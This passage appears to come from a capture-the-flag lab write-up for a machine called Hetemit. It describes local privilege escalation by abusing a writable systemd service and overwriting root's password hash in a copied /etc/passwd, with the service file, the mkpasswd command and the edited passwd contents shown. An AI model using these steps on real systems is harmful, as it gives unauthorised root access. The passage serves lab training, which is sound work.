 Furthermore, if we enumerate more, we can see that we can write to a systemd service called `pythonapp.service`. 

Now we can connect the dots. We can modify the `pythonapp.service` to include any command as root. Then we can `reboot` the system to restart the service as we have `sudo` privileges to do so, as a result, we can run any command as root on the system.

```
[cmeeks@hetemit ~]$ cat /etc/systemd/system/pythonapp.service 
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

The most important parameters here are :
* User : The user that the service will run as.
* Execstart : It specifies the command that will run when the service starts. 

Now we want to get shell as root. There are many ways to do so with systemd services. However, I am going to tamper the `/etc/passwd` file to modify `root` password and eventually get shell.

First let us make a SHA-512 hashed password with `mkpasswd`.

```
┌──(root💀nehal)-[~]
└─# mkpasswd -m sha-512 hacked
$6$x09fyUlDjkjzYlIB$XxEXislz4y27iEFte5IGsnqiP7mxEWLsH/Xfq1m3GwcdHH4X7fllR6mZMi2kQVmF6EazOXEM5EGY9H1S1JhSN1
```

Now let us paste this hash on the password field of `root` on a copied file of `/etc/passwd`.

```
[cmeeks@hetemit ~]$ cat passwd.bak 
root:$6$x09fyUlDjkjzYlIB$XxEXislz4y27iEFte5IGsnqiP7mxEWLsH/Xfq1m3GwcdHH4X7fllR6mZMi2kQVmF6EazOXEM5EGY9H1S1JhSN1:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd:x:998:996:User for polkitd:/:/sbin/nologin
libstoragemgmt:x:997:995:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
cockpit-ws:x:996:993:User for cockpit web service:/nonexisting:/sbin/nologin
```